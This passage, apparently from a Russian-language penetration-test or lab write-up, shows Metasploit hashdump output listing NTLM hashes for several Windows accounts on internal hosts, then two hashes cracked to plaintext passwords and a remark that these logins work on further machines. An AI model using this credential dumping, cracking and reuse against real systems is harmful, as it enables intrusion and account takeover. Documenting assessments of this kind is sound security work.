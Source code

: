 Результат для всех уязвимых машин:

```
msf6 post(windows/gather/hashdump) > creds
Credentials
===========

host          origin       service        public                      private                                                            realm  private_type    JtR Format
----          ------       -------        ------                      -------                                                            -----  ------------    ----------
10.11.2.12                 445/tcp (smb)  Администратор                                                                                         Blank password  
10.11.2.12    10.11.2.12   445/tcp (smb)  Администратор               aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.2.12                 445/tcp (smb)  Гость                                                                                                 Blank password  
10.11.2.12    10.11.2.12   445/tcp (smb)  Гость                       aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.2.12    10.11.2.12   445/tcp (smb)  cadm                        aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55         NTLM hash       nt,lm
10.11.239.5   10.11.239.5  445/tcp (smb)  Администратор               aad3b435b51404eeaad3b435b51404ee:4c24dc6d6c75dee89c887b44a02285ee         NTLM hash       nt,lm
10.11.239.5   10.11.2.12   445/tcp (smb)  Гость                       aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.239.5   10.11.2.12   445/tcp (smb)  cadm                        aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55         NTLM hash       nt,lm
10.11.239.5   10.11.239.5  445/tcp (smb)  oper                        aad3b435b51404eeaad3b435b51404ee:b59607640885d9c51c5a85a5126c9551         NTLM hash       nt,lm
10.11.239.6   10.11.239.5  445/tcp (smb)  Администратор               aad3b435b51404eeaad3b435b51404ee:4c24dc6d6c75dee89c887b44a02285ee         NTLM hash       nt,lm
10.11.239.6   10.11.2.12   445/tcp (smb)  Гость                       aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.239.6   10.11.2.12   445/tcp (smb)  cadm                        aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55         NTLM hash       nt,lm
10.11.239.6   10.11.239.5  445/tcp (smb)  oper                        aad3b435b51404eeaad3b435b51404ee:b59607640885d9c51c5a85a5126c9551         NTLM hash       nt,lm
10.11.240.14  10.11.2.12   445/tcp (smb)  Администратор               aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.240.14  10.11.2.12   445/tcp (smb)  Гость                       aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash       nt,lm
10.11.240.14  10.11.2.12   445/tcp (smb)  cadm                        aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55         NTLM hash       nt,lm

```

Пробрутим хэши паролей и получим следующие креды:
```
Администратор:500:aad3b435b51404eeaad3b435b51404ee:4c24dc6d6c75dee89c887b44a02285ee:::Maggie1
oper:1001:aad3b435b51404eeaad3b435b51404ee:b59607640885d9c51c5a85a5126c9551:::Stephanie1
```

Данные учетные записи работают на ip 10.11.4.6,8,10,13 и других подсетях
